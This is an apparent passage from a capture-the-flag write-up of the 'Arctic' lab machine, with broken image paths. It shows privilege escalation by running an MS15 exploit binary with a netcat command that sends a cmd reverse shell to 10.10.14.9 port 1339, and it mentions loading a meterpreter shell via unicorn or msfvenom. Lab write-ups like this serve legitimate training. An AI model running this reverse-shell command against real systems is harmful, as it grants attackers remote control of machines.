 so we create a listner and also run this code 

```sh
.\Ms15.exe "nc64.exe -e cmd 10.10.14.9 1339"
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/ms15ex.png)

and just by that we get the root privillage.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/rootpriv.png)

and just by that we can get the user flag in `C:\users\tolis\desktop\user.txt` and root flag on 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/flags.png)
## METERPRETER

it execute but nothing of impormtance so what we do is to be able to load a meterpreter shell with this exploit form [unicorn](https://github.com/trustedsec/unicorn/blob/master/unicorn.py)  or using `msvenom`
